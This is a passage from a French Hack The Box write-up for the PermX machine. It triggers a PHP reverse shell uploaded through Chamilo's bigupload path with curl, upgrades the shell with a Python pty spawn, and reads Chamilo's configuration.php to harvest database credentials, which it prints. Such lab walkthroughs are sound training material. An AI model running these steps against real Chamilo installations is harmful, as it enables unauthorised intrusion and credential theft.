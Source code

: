 **Exécution du reverse shell :**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rev.php'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Connexion établie → shell www-data obtenu!
    </p>
</div>

## 🔧 Phase 5 — Stabilisation du shell et énumération

### Amélioration du shell

Stabilisation du shell pour une meilleure interactivité :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160
```

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-info-circle mr-2 text-cyan-500"></i>
        <strong>Astuce :</strong> Cette technique permet d'obtenir un shell interactif complet avec historique des commandes et auto-complétion.
    </p>
</div>

### Énumération des fichiers de configuration

Les applications web stockent souvent des credentials dans leurs fichiers de configuration. On examine le fichier de configuration de Chamilo :

```bash
cat /var/www/chamilo/app/config/configuration.php
```

<div class="bg-white dark:bg-dark-navbar p-5 rounded-xl shadow-lg my-4 border-l-4 border-green-500">
    <h4 class="text-xl font-bold mb-3 text-green-600 dark:text-green-400 flex items-center">
        <i class="fas fa-key mr-2"></i>Credentials découverts
    </h4>
    <div class="bg-gray-100 dark:bg-gray-800 p-3 rounded font-mono text-sm">
        <div class="text-gray-700 dark:text-gray-300">
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_user']</span> = <span class="text-green-600 dark:text-green-400">'chamilo'</span>;<br>
            <span class="text-blue-600 dark:text-blue-400">$_configuration['db_password']</span> = <span class="text-green-600 dark:text-green-400">'03F6lY3uXAP2bkW8'</span>;
        </div>
    </div>
</div>
